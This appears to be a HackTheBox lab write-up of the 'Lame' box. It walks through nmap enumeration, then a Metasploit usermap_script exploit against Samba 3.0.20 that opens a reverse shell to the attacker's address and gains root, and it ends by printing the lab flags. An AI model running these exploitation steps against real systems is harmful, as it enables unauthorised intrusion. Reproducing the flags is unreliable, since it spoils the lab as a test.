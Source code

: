 ```yaml
---
layout: post
title: Lame - Hackthebox
date: 2019-10-03
Author: Dark0
tags: [sample, document]
toc: 
pinned: true
---
```


### Lame is a beginner box. With basic enumeration and some research you will get user and the root pretty easily.

![Box](https://i.ibb.co/z7wqbNQ/Captura-de-tela-em-2019-10-03-17-30-29.png)


# ENUMERATION

### I'll start with a basic enumeration, to do that I used nmap with flags -T4 -A -v

```
┌─[root@parrot]─[~/Documentos/htb/boxes/lame]
└──╼ #nmap -T4 -A -v 10.10.10.3

```

### We find port 21, 22, 139 and 445 open

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Arris TG562G/CT cable modem (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.18 (ClarkConnect 4.3 Enterprise Edition) (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Linksys WRV54G WAP (92%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.076 days (since Thu Oct  3 15:52:27 2019)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=192 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h00m23s, deviation: 0s, median: 4h00m23s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-10-03T16:41:57-04:00
|_smb2-time: Protocol negotiation failed (SMB2)


```

### I've tried exploit port 21, vsftpd 2.3.4 is indeed vulnerable but I wasn't successful. So I realized that Samba 3.0.20 was vulnerable too. I did search about samba in metasploit finding many results

```
msf5 > search samba 3.0.20

Matching Modules
================

   #   Name                                                   Disclosure Date  Rank       Check  Description
   -   ----                                                   ---------------  ----       -----  -----------
   1   auxiliary/admin/http/wp_easycart_privilege_escalation  2015-02-25       normal     Yes    WordPress WP EasyCart Plugin Privilege Escalation
   11  exploit/linux/samba/lsa_transnames_heap                2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   12  exploit/linux/samba/setinfopolicy_heap                 2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   13  exploit/linux/samba/trans2open                         2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   14  exploit/multi/samba/nttrans                            2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   15  exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution
   16  exploit/osx/samba/lsa_transnames_heap                  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow

   
```
# EXPLOITATION

### Then I've used the exploit/multi/samba/usermap_script module because this version of samba is vulnerable. (CVE-2007–2447)

```
msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.10:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo r43tyRSiXyHwgK4g;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "r43tyRSiXyHwgK4g\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.10:4444 -> 10.10.10.3:48359) at 2019-10-03 18:45:37 -0300

python -c 'import pty;pty.spawn("/bin/bash")' 
root@lame:/# whoami
whoami
root
root@lame:/# cat /home/makis/user.txt
cat /home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
root@lame:/# cat ~/root.txt
cat ~/root.txt
92caac3be140ef409e45721348a4e9df
root@lame:/# 

```
### I used python -c ‘import pty;pty.spawn(“/bin/bash”)’ to spawn a tty shell and done
### box owned!! this box is very easy, but for a beginner it's definitely a great box.

### Stay in peace, guys!



